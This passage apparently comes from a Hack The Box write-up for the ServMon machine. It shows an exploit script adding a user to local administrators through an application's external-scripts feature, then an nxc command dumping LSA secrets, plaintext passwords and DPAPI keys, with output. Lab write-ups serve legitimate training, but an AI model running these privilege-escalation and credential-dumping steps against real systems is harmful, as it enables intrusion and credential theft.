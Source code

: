 ```console
$ python3 x.py -t 240.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'net localgroup administrators nadine /add'
[!] Targeting base URL https://240.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: BXABhHYHoZkp)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
```

It works:

```powershell
PS C:\Users\Nadine> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Nadine
The command completed successfully.
```

I had a hard time getting an admin shell, even given the success above. For example, I suspect there's some AV on this target (Defender, etc.) because any reverse shell payloads get removed from the disk right away. A lot of the CIM queries fail for insufficient access. I can't trigger an NTLM callback to `responder`, for some reason.

So, I decide I need the Administrator's hash.

```console
$ nxc smb servmon.htb -u nadine -p 'L1k3B1gBut7s@W0rk' --lsa
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [+] Dumping LSA secrets
SMB         10.10.10.184    445    SERVMON          SERVMON\Nathan:To0M4nyS4ndw1ch35
SMB         10.10.10.184    445    SERVMON          dpapi_machinekey:0x5029be2d110d061e856496ac6c10595d5f75cf27
dpapi_userkey:0xeae6f93f35f9668e366a959938c97e4a8b54cfc2
SMB         10.10.10.184    445    SERVMON          NL$KM:73629c30538cac86add0035b666feaed318455b9def82ca6d513ce4a8d889e19cb76dd9ccc1e5e3d790c072dd348a8eeec511dd9a90ee06004521b82299d6d48
SMB         10.10.10.184    445    SERVMON          [+] Dumped 3 LSA secrets to /home/e/.nxc/logs/SERVMON_10.10.10.184_2024-09-30_094424.secrets and /home/e/.nxc/logs/SERVMON_10.10.10.184_2024-09-30_094424.cached
```
